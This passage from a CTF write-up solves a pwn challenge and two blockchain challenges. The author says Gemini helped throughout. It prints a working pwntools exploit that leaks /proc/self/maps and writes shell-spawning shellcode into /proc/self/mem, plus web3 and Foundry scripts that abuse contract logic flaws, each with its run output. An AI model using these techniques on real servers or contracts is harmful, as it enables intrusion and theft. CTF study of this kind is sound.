7f00cb71a000-7f00cb721000 rw-s 00000000 00:01 339                        /dev/zero (deleted)
7f00cb721000-7f00cb725000 r--p 00000000 00:00 0                          [vvar]
7f00cb725000-7f00cb727000 r-xp 00000000 00:00 0                          [vdso]
7f00cb727000-7f00cb741000 r--p 00000000 00:37 1468494                    /app/server
7f00cb741000-7f00cb8d3000 r-xp 0001a000 00:37 1468494                    /app/server
7f00cb8d3000-7f00cb945000 r--p 001ac000 00:37 1468494                    /app/server
7f00cb945000-7f00cb952000 r--p 0021d000 00:37 1468494                    /app/server
7f00cb952000-7f00cb954000 rw-p 0022a000 00:37 1468494                    /app/server
7f00cb954000-7f00cb95d000 rw-p 00000000 00:00 0
7ffebba2b000-7ffebba4c000 rw-p 00000000 00:00 0                          [stack] 
```

I again asked Gemini to analyze this output and concluded that I had successfully achieved a **KASLR / PIE bypass**. The target region was identified at:

```bash
7f00cb741000-7f00cb8d3000 r-xp 0001a000 00:37 1468494                    /app/server
```

This corresponds to the `.text` segment, where the program’s executable instructions reside.

Next, I searched for the offset of the `send_response` function in the binary using:

```bash
nm -C src/server | grep send_response
```

```bash
ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ nm -C src/server | grep send_response
0000000000022d4c T Server::send_response(int, int, std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> > const&, std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> > const&) 
```

From this, I obtained the offset `0x22d4c`. At this point, Gemini was able to help construct an exploit that leverages the `rsi` register.

Using the Gemini-generated script, I successfully ran the exploit locally and obtained the test flag:

```bash
 (ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ python3 exploit.py
[+] Opening connection to localhost on port 8080: Done
[*] Read /proc/self/maps to leak Base Address
[+] Base Address Server found: 0x7f00cb727000
[+] Target overwrite (Server::send_response): 0x7f00cb749d4c
[*] Shellcode created (64 bytes)
[*] Overwriting memory instruction via /proc/self/mem
[+] Payload sent
[+] run 'cat /flag*'
[*] Switching to interactive mode
$ cat /flag*
C2C{test_flag_is_here}
$
[*] Interrupted
[*] Closed connection to localhost port 8080 
```

## Exploit

After adjusting several parts, below is the final `exploit.py` that I executed against the remote instance:

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

host = 'challenges.1pc.tf'
port = <port>

io = remote(host, port)

# =========================================================================
# STEP 1: INFORMATION LEAK (KASLR BYPASS)
# =========================================================================
log.info("Read /proc/self/maps to leak Base Address")

# Construct HTTP Request
req_get = f"GET /?path=/proc/self/maps HTTP/1.1\r\n"
req_get += f"Host: {host}\r\n"
req_get += "Connection: keep-alive\r\n\r\n"
io.send(req_get.encode())

# Parsing response to keep TCP stream sync
io.recvuntil(b"Content-Length: ")
content_length = int(io.recvuntil(b"\r").strip())
io.recvuntil(b"\r\n\r\n")
maps_data = io.recv(content_length).decode()

# Find first line with /app/server path
base_addr = 0
for line in maps_data.splitlines():
  if "/app/server" in line:
      base_addr = int(line.split('-')[0], 16)
      break

if base_addr == 0:
  log.error("Failed to find Base Address!")
  exit(1)

log.success(f"Base Address Server found: {hex(base_addr)}")

# =========================================================================
# STEP 2: SHELLCODE & OFFSET CALCULATION
# =========================================================================
# Offset Server::send_response func from 'nm'
offset_send_response = 0x22d4c
target_addr = base_addr + offset_send_response
log.success(f"Target overwrite (Server::send_response): {hex(target_addr)}")

# Create shellcode: Redirect I/O (stdin, stdout, stderr) to fd in 'rsi' then execute /bin/sh
shellcode = asm(shellcraft.dupsh('rsi'))
log.info(f"Shellcode created ({len(shellcode)} bytes)")

# =========================================================================
# STEP 3: ARBITRARY MEMORY WRITE & TRIGGER
# =========================================================================
log.info("Overwriting memory instruction via /proc/self/mem")

# format target_addr to num string
req_put = f"PUT /?path=/proc/self/mem&offset={target_addr} HTTP/1.1\r\n"
req_put += f"Host: {host}\r\n"
req_put += "Connection: close\r\n"
req_put += f"Content-Length: {len(shellcode)}\r\n\r\n"

# Send HTTP header HTTP and put shellcode as body
payload = req_put.encode() + shellcode
io.send(payload)

log.success("Payload sent")
log.success("run 'cat /flag*'")

io.interactive()
```

Below is the output from running this exploit:

```bash
(ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ python exploit.py 
[+] Opening connection to challenges.1pc.tf on port 22040: Done
[*] Read /proc/self/maps to leak Base Address
[+] Base Address Server found: 0x7fd059ec9000
[+] Target overwrite (Server::send_response): 0x7fd059eebd4c
[*] Shellcode created (64 bytes)
[*] Overwriting memory instruction via /proc/self/mem
[+] Payload sent
[+] run 'cat /flag*'
[*] Switching to interactive mode
$ cat /flag*
C2C{LlnUx_1iIe_5YS7eM_I5_Qul7E_m1nD_81OWIn6_i5N'7_i7_e9042b9950c2?}
$ 
[*] Interrupted
[*] Closed connection to challenges.1pc.tf port 22040
```

Flag: **`C2C{LlnUx_1iIe_5YS7eM_I5_Qul7E_m1nD_81OWIn6_i5N'7_i7_e9042b9950c2?}`**

## AI Usage

Yes, I used AI to solve this challenge. I used **Gemini 3 Pro**, accessed through Google AI Pro with a Student Account subscription.

I relied heavily on Gemini for this challenge, as I am still relatively inexperienced with pwn challenges. I used Gemini to analyze the source code, interpret outputs, identify vulnerabilities, and construct the exploit script.

Some of the prompts I used include:

```
here's the server.cpp file, what can i do with this?

#include "server.hpp"
#include <iostream> 
...
```

```
here's the output of the exploit

(ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ python3 exploit.py

[+] Opening connection to localhost on port 8080: Done
[*] Sending payload to read: /proc/self/environ 
...

what should i do?
```

Since I relied heavily on Gemini, my methodology for verifying its output was to directly test the suggested steps and provide the resulting output back to Gemini as feedback until the flag was obtained.

---

# blockchain/tge

In C2C CTF 2026, this was my first experience working on a blockchain challenge. I relied heavily on Gemini to understand blockchain concepts and how the system works in this challenge.

First, I tried to understand the overall challenge flow and identify the **goal**.

In `Setup.sol`, there is an `isSolved()` function:

```solidity
function isSolved() external view returns (bool) {
    require(tge.userTiers(player) == 3, "not yet");
    return true;
}
```

From this, I concluded that my objective as the player is to make `userTiers` equal to **3 (Tier 3)**.

From `Setup.sol`, we can also see the `constructor`, which initializes the initial state when the instance is deployed:

```solidity
constructor(address _player) {
    player = _player;
    token = new Token("TOK", "TOK", 100);
    tge = new TGE(address(token), 15, 35, 50); // maxSupply: Tier1=15, Tier2=35, Tier3=50
    tge.setTgePeriod(true); // open TGE
    token.mint(player, 15); // given 15 token
}
```

As the player, I am given **15 tokens** as starting capital.

Next, I analyzed `TGE.sol` to understand how `userTiers` can be increased:

1. **Tier 1**: There is a `buy()` function. This function requires the player to pay a certain amount of tokens (Tier 1 costs 15 tokens). Since the player starts with exactly 15 tokens, Tier 1 can be purchased legitimately.
2. **Tier 2 & Tier 3**: There is an `upgrade(uint256 tier)` function, but this function has multiple requirements.

At this point, Gemini identified several vulnerabilities:

- In `Setup.sol`, there is a function `enableTge(bool _tge)` which is marked as `public`. This means **anyone** can freely turn the TGE period on or off.
- In `TGE.sol`, every time the TGE is turned off, the contract takes a snapshot of the total supply at that moment and stores it in `preTGESupply`.

Based on Gemini’s analysis, the exploit scenario is as follows:

1. **Warm-up**  
   Buy Tier 1 legitimately using the initial 15 tokens.

2. **Snapshot Sabotage**  
   Call `setup.enableTge(false)`. Since no one owns Tier 2 or Tier 3 at this point, the `preTGESupply` for those tiers is recorded as **0**.

3. **Reopen TGE**  
   Call `setup.enableTge(true)` to allow upgrades again. At this point, `tgeActivated` is already `true` (because TGE was disabled once), and `isTgePeriod` is also `true`.

4. **Validation Bypass**  
   When calling `upgrade(2)`, the contract checks whether the user’s balance is greater than the snapshot supply (`preTGEBalance > preTGESupply`). Since the snapshot supply is **0**, even a balance of **1 token** satisfies this condition, allowing the player to upgrade.

5. **Finishing**  
   Repeat the same process to upgrade to **Tier 3**.

## Exploit

First, I launched the instance using the blockchain launcher to obtain the credentials.

[image here]

Next, I copied the credentials and placed them into the following `exploit.py` script:

```pyhton
from web3 import Web3

rpc_url = "http://challenges.1pc.tf:32128/3234aed2-eafa-4e45-b1ca-71eadd8646a1"
priv_key = "87062c8bc61a2f05a3521a08ea8f043a2d05219c5ff3e468ed3c6657007da3d4"
wallet = Web3.to_checksum_address("0x50543De4BBe544b5Afbf9F306A22083d0a8F1521")
setup_addr = Web3.to_checksum_address("0xfB2EE8D25e4Cda3c57bC68CAeF5C57243afF076e")

# Initialize Connection
w3 = Web3(Web3.HTTPProvider(rpc_url))
w3.eth.default_account = wallet

# Minimal ABI to interact
setup_abi = [
    {"inputs":[],"name":"tge","outputs":[{"type":"address"}],"stateMutability":"view","type":"function"},
    {"inputs":[],"name":"token","outputs":[{"type":"address"}],"stateMutability":"view","type":"function"},
    {"inputs":[{"type":"bool","name":"_tge"}],"name":"enableTge","outputs":[],"stateMutability":"nonpayable","type":"function"}
]
token_abi = [
    {"inputs":[{"type":"address","name":"spender"},{"type":"uint256","name":"amount"}],"name":"approve","outputs":[{"type":"bool"}],"stateMutability":"nonpayable","type":"function"}
]
tge_abi = [
    {"inputs":[],"name":"buy","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"type":"uint256","name":"tier"}],"name":"upgrade","outputs":[],"stateMutability":"nonpayable","type":"function"}
]

# Connect to Setup Contract to get TGE address and Token
setup = w3.eth.contract(address=setup_addr, abi=setup_abi)
tge_addr = setup.functions.tge().call()
token_addr = setup.functions.token().call()

tge = w3.eth.contract(address=tge_addr, abi=tge_abi)
token = w3.eth.contract(address=token_addr, abi=token_abi)

# Helper func for sending transaction
def send_tx(tx_build, name=""):
    tx = tx_build.build_transaction({
        'from': wallet,
        'nonce': w3.eth.get_transaction_count(wallet),
        # Add gasPrice (optional)
        'gasPrice': w3.eth.gas_price,
    })
    signed = w3.eth.account.sign_transaction(tx, priv_key)
    print(f"[*] Send Transaction: {name}...")
    
    tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction) 
    
    w3.eth.wait_for_transaction_receipt(tx_hash)
    print(f"[+] Success: {name}")

print(f"TGE Address : {tge_addr}")
print(f"Token Address : {token_addr}\n")

# --- EXPLOIT ---
# a. Allow TGE contract to take 15 token
send_tx(token.functions.approve(tge_addr, 15), "Approve Token")

# b. Buy Tier 1
send_tx(tge.functions.buy(), "Buy Tier 1")

# c. Turn off TGE (trigger tgeActivated = true bug & Snapshot)
send_tx(setup.functions.enableTge(False), "Trigger Snapshot & tgeActivated")

# d. Turn on TGE (trigger isTgePeriod = true)
send_tx(setup.functions.enableTge(True), "Turn on TGE")

# e. Upgrade to Tier 2 & Tier 3
send_tx(tge.functions.upgrade(2), "Upgrade to Tier 2")
send_tx(tge.functions.upgrade(3), "Upgrade to Tier 3")

print("\n[🎯] Exploit Finished! You're on Tier 3 now.")
```

Exploit output:

```bash
(ctf-env) lasangna@sandbox:~/ctf/bc/tge$ python3 exploit.py 
TGE Address : 0x1B0575a929C7df6905D87Dc4e2A378df779520cd
Token Address : 0xE1e10c82DB2DcfB51749b5c74426220656704d6B

[*] Send Transaction: Approve Token...
[+] Success: Approve Token
[*] Send Transaction: Buy Tier 1...
[+] Success: Buy Tier 1
[*] Send Transaction: Trigger Snapshot & tgeActivated...
[+] Success: Trigger Snapshot & tgeActivated
[*] Send Transaction: Turn on TGE...
[+] Success: Turn on TGE
[*] Send Transaction: Upgrade to Tier 2...
[+] Success: Upgrade to Tier 2
[*] Send Transaction: Upgrade to Tier 3...
[+] Success: Upgrade to Tier 3

[🎯] Exploit Finished! You're on Tier 3 now.
```

[image here]

Flag: **`C2C{just_a_warmup_from_someone_who_barely_warms_up}`**

## AI Usage

Yes, I used AI to solve this challenge. I used **Gemini 3 Pro**, accessed through Google AI Pro with a Student Account subscription.

As mentioned earlier, this was my first blockchain challenge, and I was still very unfamiliar with both the terminology and how the system works. Therefore, I used Gemini to learn the concepts, analyze vulnerabilities, and write the exploit script.

Some of the prompts I used were:

```
there's these files
.
├── Setup.sol
├── TGE.sol
└── Token.sol

what should i analyze first
```

```
how can i get isSolved() to return true?
```

Since I relied heavily on Gemini, my methodology for verifying its output was to directly test the suggested steps and provide feedback to Gemini until the flag was obtained.

---

# blockchain/convergence

First, I tried to understand the overall challenge flow and identify the **goal**.

In `Setup.sol`, there is the following `isSolved()` function:

```solidity
function isSolved() external view returns (bool) {
    return challenge.ascended() != address(0);
}
```

This means the main objective is to make the `ascended` variable in `Challenge.sol` contain a non-zero *address*.  
The `ascended` variable can only be set via the `transcend(bytes calldata truth)` function.

To successfully call `transcend()`, the player must satisfy several conditions:

1. The player must be registered as a seeker by calling `registerSeeker()` first.
2. The `truth` payload submitted by the player must already be registered (hashed) in `setup.chronicles(seal)`.
3. When `truth` is decoded as `(SoulFragment[], bytes32, uint32, address, address)`, the parameters must satisfy:
   - The 4th parameter (`invoker`) must be `msg.sender`.
   - The 5th parameter (`witness`) must be `msg.sender`.
   - The total `essence` from all `SoulFragment` entries must be **≥ 1000 ether**.

At this point, I asked Gemini to analyze the code and it identified a vulnerability in the `bindPact` function in `Setup.sol`.

The `bindPact` function limits the essence value per fragment:

```solidity
require(fragments[i].essence <= 100 ether, "Essence too powerful for pact");
```

However, **there is no limit on the number of fragments that can be submitted**.

Therefore, to reach the required total of `1000 ether` for `transcend()`, we can:

1. Create an `agreement` containing an array of **10 `SoulFragment`s**, each with `essence = 100 ether`.  
   The total essence becomes exactly `1000 ether`.
2. Set both `invoker` and `witness` to the player’s address (`msg.sender`).
3. Submit this encoded payload to `Setup.bindPact()`.
4. Submit the **exact same payload** again to `Challenge.transcend()`.

> **Note:** The variable `CONVERGENCE_REQUIREMENT = 100` is never checked inside `transcend()`, so it can be ignored as a red herring.

## Exploit

To execute the exploit, I used **Foundry**.

First, initialize a Foundry project and move the Solidity files provided by the challenge into the `src/` directory:

```bash
forge init exploit --empty
mv Challenge.sol Setup.sol exploit/src/
```

Next, export the instance credentials into environment variables:

```bash
export RPC_URL="..."
export PRIVKEY="0x..."
export SETUP_CONTRACT_ADDR="..."
export WALLET_ADDR="..."
```

> **Note:** Make sure to add the `0x` prefix to `PRIVKEY`, because the exploit script later uses `vm.envUint`, which requires a hex string starting with `0x`.

Next, I asked Gemini to create the exploit script `Solve.s.sol` inside the `exploit/script/` directory:

```bash
touch exploit/script/Solve.s.sol
```

Below is the content of `Solve.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Script.sol";
import "../src/Exploit.sol";

contract Solve is Script {
    function run() external {
        // Use private key and setup address from environment variables
        uint256 privKey = vm.envUint("PRIVKEY");
        address setupAddr = vm.envAddress("SETUP_CONTRACT_ADDR");

        // Start broadcast transaction to network
        vm.startBroadcast(privKey);

        // 1. Deploy Exploit contract
        Exploit exploit = new Exploit(setupAddr);
        
        // 2. Execute pwn() func untuk to run flaw logic
        exploit.pwn();

        vm.stopBroadcast();
    }
}
```

After that, I executed the exploit:

```bash
forge script script/Solve.s.sol:Solve \
    --rpc-url $RPC_URL \
    --broadcast \
    -vvvv
```

Exploit output:

```bash
lasangna@sandbox:~/ctf/bc/convergence/exploit$ forge script script/Solve.s.sol:Solve \
    --rpc-url $RPC_URL \
    --broadcast \
    -vvvv
[⠊] Compiling...
No files changed, compilation skipped
Traces:
  [640192] Solve::run()
    ├─ [0] VM::envUint("PRIVKEY") [staticcall]
    │   └─ ← [Return] <env var value>
    ├─ [0] VM::envAddress("SETUP_CONTRACT_ADDR") [staticcall]
    │   └─ ← [Return] <env var value>
    ├─ [0] VM::startBroadcast(<pk>)
    │   └─ ← [Return]
    ├─ [443868] → new Exploit@0xd4b1D012F8eB9C85Ac234A42cD7AA6F6255B9C14
    │   ├─ [2747] 0x6a71c55C681952C0D889901E1017813813046E68::challenge() [staticcall]
    │   │   └─ ← [Return] 0xbfAaA73246D9aAe8dB74d8734Bc939a58880b64f
    │   └─ ← [Return] 1964 bytes of code
    ├─ [158059] Exploit::pwn()
    │   ├─ [46432] 0xbfAaA73246D9aAe8dB74d8734Bc939a58880b64f::registerSeeker()
    │   │   ├─ emit SeekerRegistered(seeker: Exploit: [0xd4b1D012F8eB9C85Ac234A42cD7AA6F6255B9C14], timestamp: 1771320869 [1.771e9])
    │   │   └─ ← [Stop]
    │   ├─ [43446] 0x6a71c55C681952C0D889901E1017813813046E68::bindPact(0x00000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c14000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c14000000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000014000000000000000000000000000000000000000000000000000000000000001c0000000000000000000000000000000000000000000000000000000000000024000000000000000000000000000000000000000000000000000000000000002c0000000000000000000000000000000000000000000000000000000000000034000000000000000000000000000000000000000000000000000000000000003c0000000000000000000000000000000000000000000000000000000000000044000000000000000000000000000000000000000000000000000000000000004c0000000000000000000000000000000000000000000000000000000000000054000000000000000000000000000000000000000000000000000000000000005c0000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000)
    │   │   └─ ← [Stop]
    │   ├─ [49093] 0xbfAaA73246D9aAe8dB74d8734Bc939a58880b64f::transcend(0x00000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c14000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c14000000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000014000000000000000000000000000000000000000000000000000000000000001c0000000000000000000000000000000000000000000000000000000000000024000000000000000000000000000000000000000000000000000000000000002c0000000000000000000000000000000000000000000000000000000000000034000000000000000000000000000000000000000000000000000000000000003c0000000000000000000000000000000000000000000000000000000000000044000000000000000000000000000000000000000000000000000000000000004c0000000000000000000000000000000000000000000000000000000000000054000000000000000000000000000000000000000000000000000000000000005c0000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000)
    │   │   ├─ [763] 0x6a71c55C681952C0D889901E1017813813046E68::chronicles(0xe039c84619c20a78f176426ada1ea58db94a236cf8ca2d366689521892bf6bd9) [staticcall]
    │   │   │   └─ ← [Return] true
    │   │   ├─ emit Transcended(ascended: Exploit: [0xd4b1D012F8eB9C85Ac234A42cD7AA6F6255B9C14])
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return]
    └─ ← [Stop]


Script ran successfully.

## Setting up 1 EVM.
==========================
Simulated On-chain Traces:

  [443868] → new Exploit@0xd4b1D012F8eB9C85Ac234A42cD7AA6F6255B9C14
    ├─ [2747] 0x6a71c55C681952C0D889901E1017813813046E68::challenge() [staticcall]
    │   └─ ← [Return] 0xbfAaA73246D9aAe8dB74d8734Bc939a58880b64f
    └─ ← [Return] 1964 bytes of code

  [164559] Exploit::pwn()
    ├─ [46432] 0xbfAaA73246D9aAe8dB74d8734Bc939a58880b64f::registerSeeker()
    │   ├─ emit SeekerRegistered(seeker: Exploit: [0xd4b1D012F8eB9C85Ac234A42cD7AA6F6255B9C14], timestamp: 1771320869 [1.771e9])
    │   └─ ← [Stop]
    ├─ [43446] 0x6a71c55C681952C0D889901E1017813813046E68::bindPact(0x00000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c14000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c14000000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000014000000000000000000000000000000000000000000000000000000000000001c0000000000000000000000000000000000000000000000000000000000000024000000000000000000000000000000000000000000000000000000000000002c0000000000000000000000000000000000000000000000000000000000000034000000000000000000000000000000000000000000000000000000000000003c0000000000000000000000000000000000000000000000000000000000000044000000000000000000000000000000000000000000000000000000000000004c0000000000000000000000000000000000000000000000000000000000000054000000000000000000000000000000000000000000000000000000000000005c0000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000)
    │   └─ ← [Stop]
    ├─ [49093] 0xbfAaA73246D9aAe8dB74d8734Bc939a58880b64f::transcend(0x00000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c14000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c14000000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000014000000000000000000000000000000000000000000000000000000000000001c0000000000000000000000000000000000000000000000000000000000000024000000000000000000000000000000000000000000000000000000000000002c0000000000000000000000000000000000000000000000000000000000000034000000000000000000000000000000000000000000000000000000000000003c0000000000000000000000000000000000000000000000000000000000000044000000000000000000000000000000000000000000000000000000000000004c0000000000000000000000000000000000000000000000000000000000000054000000000000000000000000000000000000000000000000000000000000005c0000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000000000000000000000000000d4b1d012f8eb9c85ac234a42cd7aa6f6255b9c140000000000000000000000000000000000000000000000056bc75e2d6310000000000000000000000000000000000000000000000000000000000000000000600000000000000000000000000000000000000000000000000000000000000000)
    │   ├─ [763] 0x6a71c55C681952C0D889901E1017813813046E68::chronicles(0xe039c84619c20a78f176426ada1ea58db94a236cf8ca2d366689521892bf6bd9) [staticcall]
    │   │   └─ ← [Return] true
    │   ├─ emit Transcended(ascended: Exploit: [0xd4b1D012F8eB9C85Ac234A42cD7AA6F6255B9C14])
    │   └─ ← [Stop]
    └─ ← [Stop]


==========================

Chain 31337

